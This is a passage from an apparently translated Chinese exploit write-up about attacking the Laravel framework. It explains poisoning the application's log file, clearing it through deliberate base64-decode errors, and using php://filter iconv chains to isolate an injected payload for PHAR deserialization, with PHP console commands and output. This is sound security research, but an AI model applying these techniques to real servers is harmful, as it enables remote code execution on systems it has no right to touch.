 ```shell
#32 /work/pentest/laravel/laravel/vendor/laravel/framework/src/Illuminate/Pipeline/Pipeline.php(103): Illuminate\\Pipeline\\Pipeline->Illuminate\\Pipeline\\{closure}()
#33 /work/pentest/laravel/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Http/Kernel.php(141): Illuminate\\Pipeline\\Pipeline->then()
#34 /work/pentest/laravel/laravel/vendor/laravel/framework/src/Illuminate/Foundation/Http/Kernel.php(110): Illuminate\\Foundation\\Http\\Kernel->sendRequestThroughRouter()
#35 /work/pentest/laravel/laravel/public/index.php(52): Illuminate\\Foundation\\Http\\Kernel->handle()
#36 /work/pentest/laravel/laravel/server.php(21): require_once('/work/pentest/l...')
#37 {main}
"}
```

我们可以向文件中注入（几乎）任意的内容了。理论上讲，我们可以使用Orange发明的技术将日志文件转换为有效的PHAR文件，然后，使用phar://包装器来运行序列化的代码。遗憾的是，这实际上是行不通的，并且原因有很多。

```php
我们在前面说过，当对一个字符串进行ba se64-decoding处理时，PHP会忽略任何坏字符。这通常是正确的，但是有一个字符除外，即=。如果你使用ba se64-decode过滤一个中间含有字符=的字符串，PHP将产生一个错误，并且不会返回任何内容。
如果我们能控制整个文件，那就好了。然而，我们注入到日志文件中的文本只是其中很小的一部分。它不仅有一个不算很大的前缀（日期），还有一个臃肿的后缀（堆栈跟踪）。此外，我们注入的文本还出现了两次！
下面是另一件可怕的事情：


php > var_dump(base64_decode(base64_decode('[2022-04-3023:59:11]')));
string(0) ""
php >var_dump(base64_decode(base64_decode('[2022-04-12 23:59:11]')));
string(1) "2"
```

根据日期的不同，对前缀进行两次解码时，会得到不同大小的结果。当我们对它进行第三次解码时，在第二种情况下，我们的payload将以2作为前缀，从而需要改变base64消息的对齐方式。

为了使其正常运行，我们必须为每个目标建立一个新的payload，因为堆栈跟踪中包含绝对文件名；并且，每秒都需要建立一个新的payload，因为前缀中包含时间。并且，只要有一个字符=需要进行base64-decode处理，仍然会面临失败。

因此，我们回到PHP文档中寻找其他类型的过滤器。

```
[previous log entries]
[prefix]PAYLOAD[midfix]PAYLOAD[suffix]
```

遗憾的是，我们已经了解到，如果滥用base64-decode的话，可能会在某个时候失败。现在，让我们来利用这一点：如果我们滥用它，将发生解码错误，日志文件将被清除！这样，我们触发的下一个错误将单独存在于日志文件中：

```
[prefix]PAYLOAD[midfix]PAYLOAD[suffix]
```

现在，我们又回到了最初的问题上：保留一个payload并删除其余的。幸运的是，php://filter并不限于base64操作。例如，我们可以用它来转换字符集，下面是从UTF-16到UTF-8的转换：

```php
echo -ne '[Some prefix ]P\0A\0Y\0L\0O\0A\0D\0[midfix]P\0A\0Y\0L\0O\0A\0D\0[Some suffix ]' > /tmp/test.txt
php > echo file_get_contents('php://filter/read=convert.iconv.utf16le.utf-8/resource=/tmp/test.txt');
卛浯⁥牰晥硩崠PAYLOAD浛摩楦嵸PAYLOAD卛浯⁥畳晦硩崠
```
